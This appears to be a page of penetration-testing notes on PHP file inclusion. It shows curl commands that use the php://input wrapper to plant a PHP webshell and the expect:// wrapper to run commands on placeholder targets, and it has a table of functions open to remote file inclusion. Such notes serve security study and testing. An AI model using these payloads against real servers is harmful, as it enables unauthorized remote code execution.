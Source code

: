 ### Input

The difference between the [input](https://www.php.net/manual/en/wrappers.php.php) and the data wrapper is that for the former, the vulnerable parameter must also accept `POST` requests. If the function only accepts `POST` requests, we can create a static webshell by putting the command directly within the PHP code.

{% code overflow="wrap" %}
```shell
# Getting RCE with the input wrapper (GET & POST)
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
# Getting RCE with the input wrapper (POST only)
curl -s -X POST --data '<?php system("id"); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
{% endcode %}

### Expect

The  [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper is an external wrapper, i.e., it need to be manually installed and enabled, which allows us to directly run command through URL streams. We can check if that is the case similarly to the [`allow_url_include`](rce.md#allow\_url\_include) and grepping for `expect.`

{% code overflow="wrap" %}
```shell
# Checking if the except extension is installed
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
# Getting RCE using expect
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```
{% endcode %}

## RFI

If the vulnerable function allows the inclusion of remote URLs, then we can also perform a RFI[^1] attack, which allows for gaining RCE by including a malicious script that we host and enumerating local-only ports.

<table><thead><tr><th width="299">Function</th><th align="center">Read Content</th><th align="center">Execute</th><th align="center">Remote URL</th></tr></thead><tbody><tr><td><strong>PHP</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>include()</code>/<code>include_once()</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><code>file_get_contents()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">✅</td></tr><tr><td><strong>Java</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>import</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr><tr><td><strong>.NET</strong></td><td align="center"></td><td align="center"></td><td align="center"></td></tr><tr><td><code>@Html.RemotePartial()</code></td><td align="center">✅</td><td align="center">❌</td><td align="center">✅</td></tr><tr><td><code>include</code></td><td align="center">✅</td><td align="center">✅</td><td align="center">✅</td></tr></tbody></table>


[^1]: Remote File Inclusion